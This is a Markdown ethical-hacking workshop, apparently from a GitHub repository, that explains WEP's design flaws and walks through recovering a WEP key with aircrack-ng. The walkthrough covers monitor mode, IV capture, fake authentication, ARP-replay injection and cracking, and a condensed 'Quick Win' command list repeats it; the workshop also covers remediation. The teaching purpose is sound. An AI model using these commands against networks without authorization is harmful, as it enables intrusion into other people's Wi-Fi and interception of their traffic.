






# Warning
This workshop is for educational purposes only.
Ethical hacking is conducted with the explicit permission of the system owner to improve security.

# Table of Contents

- [Warning](#warning)
- [Table of Contents](#table-of-contents)
- [Introduction](#introduction)
  - [How WEP Works](#how-wep-works)
  - [Why WEP Is Obsolete](#why-wep-is-obsolete)
- [Workshop](#workshop)
  - [Initiating Monitor Mode](#initiating-monitor-mode)
  - [Information Gathering](#information-gathering)
  - [Capturing Initialization Vectors (IVs)](#capturing-initialization-vectors-ivs)
  - [Generating Traffic](#generating-traffic)
  - [Cracking the Key](#cracking-the-key)
- [Remediation](#remediation)
- [Quick Win](#quick-win)
- [Conclusion](#conclusion)
- [Resources](#resources)

# Introduction

WEP (Wired Equivalent Privacy) was the very first security mechanism for Wi-Fi networks, introduced in 1997 alongside the original IEEE 802.11 standard. Its name reveals its ambition: to provide a level of confidentiality *equivalent* to that of a physical wired network, where an attacker would need physical access to a cable to eavesdrop. On a wireless network the radio signal travels through the air and can be captured by anyone in range, so some form of encryption was needed.

WEP failed at this goal. By 2001, researchers had published practical attacks that recover the secret key from passively captured traffic, and the attacks have only become faster since. WEP was officially deprecated by the Wi-Fi Alliance in 2004 and replaced by WPA, then WPA2 and WPA3. Despite this, WEP is still occasionally found on old routers, printers, IP cameras, and industrial equipment — which is exactly why understanding it matters.

## How WEP Works

WEP is built on the **RC4** stream cipher and a **single static secret key** that is shared by the access point and every client. Because reusing the exact same RC4 keystream for every packet would be catastrophic, WEP prepends a 24-bit **Initialization Vector (IV)** to the key before encrypting each packet. The IV changes per packet and is sent *in cleartext* alongside the data so the receiver can reconstruct the keystream.

For each packet:

1. A CRC-32 checksum (the **ICV**, Integrity Check Value) is computed over the plaintext.
2. The 24-bit IV is concatenated with the shared key to form the per-packet "seed".
3. RC4 turns that seed into a **keystream** of pseudo-random bytes.
4. The keystream is **XORed** with (plaintext + ICV) to produce the ciphertext.
5. The IV is transmitted in the clear, followed by the ciphertext.

<p style="text-align:center;">
  
</p>
<p style="text-align:center;">
  <em>Basic WEP encryption: the RC4 keystream is XORed with the plaintext (source: Wikimedia Commons).</em>
</p>

The same idea expressed as a flow:

```
        24-bit IV ──┐
                    ├──► RC4 ──► keystream ──┐
   shared WEP key ──┘                        │
                                             ▼
        plaintext + CRC-32(ICV) ───────────► XOR ───► ciphertext
                                                         │
              IV (sent in CLEAR)  ◄────────── prepended ─┘
                          │
                          ▼
                  transmitted frame:  [ IV | ciphertext ]
```

Because RC4 is symmetric, decryption is the same operation: the receiver rebuilds the keystream from the cleartext IV + shared key and XORs it against the ciphertext.

## Why WEP Is Obsolete

WEP is broken by design. The flaws are not configuration mistakes — they cannot be fixed by choosing a longer key or a "better" password:

- **The IV is far too small.** 24 bits allows only ~16.7 million values. On a busy network the same IV is reused within hours. Two packets encrypted with the same IV share the same keystream, which leaks information about the plaintext.
- **The IV travels in cleartext and the key is static.** Every client uses the same long-term key, and the only thing making each packet's keystream "different" is a value the attacker can read directly off the air.
- **RC4 has weak keys (FMS attack), and the PTW attack is even faster.** By collecting enough IVs, an attacker recovers the key through statistical analysis — regardless of whether the key is 40-bit or 104-bit, and regardless of how "complex" it is.
- **The CRC-32 ICV provides no real integrity.** CRC-32 is linear, so packets can be modified or replayed without detection. This even lets an attacker *generate* traffic to harvest IVs faster.

The practical consequence: a WEP key — 64-bit or 128-bit alike — can typically be recovered in **minutes** once enough IVs are captured. This is fundamentally different from WPA2/WPA3, where security depends on the strength of the passphrase. With WEP, **key complexity is irrelevant**.

# Workshop

For this workshop, all commands are run with root privileges. Please ensure that you are logged in as the root user or add `sudo` before each command.

> **Scope note:** This workshop assumes a **WEP test network that you own and control already exists**. Configuring a router/access point to enable WEP is **out of scope**. Only perform these steps against your own lab network, never against a network you do not own or are not explicitly authorized to test.

We will use the `aircrack-ng` suite with **manual, individual commands** so you understand each step — no automated all-in-one tools. If you don't have it installed:

```bash
sudo apt install aircrack-ng
```

## Initiating Monitor Mode

First we put the wireless card into **monitor mode** so it can capture raw 802.11 frames from the air rather than only frames addressed to it.

1. **Find your interface name** by running `airmon-ng`. Note the name under the "Interface" header (often `wlan0`).

   ***If you don't see an interface, your Wi-Fi card doesn't support monitor mode (RFMON). You need a card that supports monitoring.***

2. **Start monitor mode:** `airmon-ng start wlan0`. This creates a virtual monitor interface, usually `wlan0mon`. If your interface isn't `wlan0`, replace it accordingly.

   ***If you see "Found processes that could cause trouble," run `airmon-ng check kill` to stop them.***

<p style="text-align:center;">
  
</p>
<p style="text-align:center;">
  <em>Putting the wireless interface into monitor mode with airmon-ng (source: techofide.com).</em>
</p>

## Information Gathering

Scan the surrounding networks to locate your WEP target:

```bash
airodump-ng wlan0mon
```

This lists every nearby network. Look at the **ENC** column and find your target running **WEP**:

<p style="text-align:center;">
  
</p>
<p style="text-align:center;">
  <em>airodump-ng listing nearby networks; the highlighted target shows <strong>WEP</strong> in the ENC column (source: ComputerWeekly).</em>
</p>

Identify your target network and confirm the **ENC** column shows **WEP**. Then note:

- **BSSID** — the access point's MAC address.
- **CH** — the channel number.
- **STATION** — the MAC address of a client connected to it (useful later).

## Capturing Initialization Vectors (IVs)

Now focus the capture on the single target network and write the captured frames to a file. Cracking WEP is all about collecting **IVs**, so we want as many as possible:

```bash
airodump-ng -c <channel> --bssid <BSSID> -w wep_capture wlan0mon
```

Replace `<channel>` and `<BSSID>` with the values you noted (here, capturing the `ConnectMe` network to a file called `ConnectMeCrack`):

<p style="text-align:center;">
  
</p>
<p style="text-align:center;">
  <em>Focusing the capture on a single WEP target and writing it to a file (source: ComputerWeekly).</em>
</p>

Watch the **`#Data`** column — it counts the data frames (and therefore the IVs) captured. As a rough guide, you'll want on the order of **tens of thousands** of IVs (often ~20,000–40,000 for a 64-bit key, more for 128-bit) before cracking succeeds. Leave this command running; the higher `#Data` climbs, the better.

## Generating Traffic

On an idle network, IVs accumulate slowly. Because WEP offers no replay protection, we can **actively generate traffic** to make the access point emit many IV-bearing packets quickly. Open a **new terminal** (leave `airodump-ng` running) for the following.

> **Critical warning: traffic injection is an active action that may be illegal without explicit network authorization. Only do this on your own lab network.**

1. **Fake authentication** — associate our card with the access point so it will accept our injected packets:

   ```bash
   aireplay-ng -1 0 -a <BSSID> -h <our-MAC> wlan0mon
   ```

   `<our-MAC>` is the MAC address of `wlan0mon`. On success you'll see `Association successful :-)`.

   <p style="text-align:center;">
     
   </p>
   <p style="text-align:center;">
     <em>Fake authentication succeeding against the access point (source: ComputerWeekly).</em>
   </p>

2. **ARP request replay** — capture a legitimate ARP request and replay it endlessly. Each replay forces the AP to broadcast a fresh response with a new IV:

   ```bash
   aireplay-ng -3 -b <BSSID> -h <our-MAC> wlan0mon
   ```

   <p style="text-align:center;">
     
   </p>
   <p style="text-align:center;">
     <em>ARP-request replay generating thousands of packets; as this runs, the <code>#Data</code> counter in your airodump-ng window climbs rapidly (source: ComputerWeekly).</em>
   </p>

## Cracking the Key

You don't need to wait for the capture to finish — run `aircrack-ng` against the capture file while IVs are still being collected. If there aren't enough yet, it will simply tell you to gather more and you can re-run it.

```bash
aircrack-ng wep_capture-01.cap
```

Note the contrast with WPA/WPA2: **no wordlist is required.** WEP cracking is a statistical attack (FMS/KoreK/PTW) on the captured IVs, not a dictionary or brute-force attack on a passphrase. When enough IVs have been collected, the key is recovered:

<p style="text-align:center;">
  
</p>
<p style="text-align:center;">
  <em>aircrack-ng recovering the WEP key from ~22,000 captured IVs in seconds (source: ComputerWeekly).</em>
</p>

The value in brackets after `KEY FOUND!` is the recovered WEP key. Notice it took only seconds once enough IVs were available — that is the whole point of this workshop.

# Remediation

The only real fix for WEP is to **stop using it**. There is no setting, longer key, or stronger password that makes WEP safe — the IV/RC4/CRC-32 weaknesses are baked into the protocol itself.

- **Migrate to WPA2 (AES/CCMP) at a minimum**, and prefer **WPA3 (SAE)** on equipment that supports it. These protocols use proper key management and per-session keys instead of one static shared key.
- **Use a strong, long passphrase.** Unlike WEP, the security of WPA2/WPA3 genuinely depends on passphrase strength, so choose something long and unpredictable.
- **Disable WPS** (it has its own well-known attacks) and **keep router firmware up to date**.
- **Deal with legacy WEP-only devices** (old printers, cameras, IoT) by replacing them, or isolating them on a separate VLAN/guest network that has no access to your main network and sensitive data.
- Enable **Protected Management Frames (PMF)** where available to harden against deauthentication-style attacks.

Once migrated, ready to test a modern network? Continue with the [WPA/WPA2 workshop](../WPA-WPA2/WPA-WPA2.md).

# Quick Win

1. **Find your card interface:**
   ```bash
   airmon-ng
   ```
2. **Start monitor mode:**
   ```bash
   airmon-ng start <card>
   ```
3. **Scan for the WEP target:**
   ```bash
   airodump-ng <monitor>
   ```
4. **Capture IVs from the target:**
   ```bash
   airodump-ng -c <channel> --bssid <BSSID> -w wep_capture <monitor>
   ```
5. **Fake-authenticate with the AP:**
   ```bash
   aireplay-ng -1 0 -a <BSSID> -h <our-MAC> <monitor>
   ```
6. **Replay ARP to generate IVs:**
   ```bash
   aireplay-ng -3 -b <BSSID> -h <our-MAC> <monitor>
   ```
7. **Crack the key (no wordlist needed):**
   ```bash
   aircrack-ng wep_capture-01.cap
   ```

# Conclusion

In this workshop you learned what WEP is and how it encrypts traffic with RC4, a static shared key, and a tiny 24-bit IV. You saw *why* this design is fundamentally broken — IV reuse, a cleartext IV, weak RC4 keys, and a non-cryptographic CRC-32 integrity check — which makes the key recoverable in minutes regardless of its length or complexity. You then cracked a WEP key by hand using the aircrack-ng suite, one command at a time, and learned to remediate by migrating to WPA2/WPA3.

Ethical hacking is a valuable skill when used responsibly and with explicit authorization from network owners. Continue to explore and apply these techniques in an ethical and legal manner to enhance your cybersecurity knowledge and contribute to a safer digital environment.

# Resources

- Aircrack-ng — Simple WEP crack tutorial: https://www.aircrack-ng.org/doku.php?id=simple_wep_crack
- Aircrack-ng — main documentation: https://www.aircrack-ng.org/documentation.html
- N. Borisov, I. Goldberg, D. Wagner — *(In)Security of the WEP algorithm* (Berkeley ISAAC): http://www.isaac.cs.berkeley.edu/isaac/wep-faq.html
- Wi-Fi Alliance — WPA/WPA2/WPA3 security: https://www.wi-fi.org/discover-wi-fi/security
- WEP encryption diagram: Wikimedia Commons — *Wep-crypt-alt.svg* (https://commons.wikimedia.org/wiki/File:Wep-crypt-alt.svg)
- airmon-ng screenshot: techofide.com — *How to use Aircrack-ng* (https://techofide.com/blogs/how-to-use-aircrack-ng-aircrack-ng-tutorial-practical-demonstration/)
- WEP crack screenshots (airodump-ng, aireplay-ng, aircrack-ng): ComputerWeekly — *Step-by-step aircrack tutorial for Wi-Fi penetration testing* (https://www.computerweekly.com/tip/Step-by-step-aircrack-tutorial-for-Wi-Fi-penetration-testing)
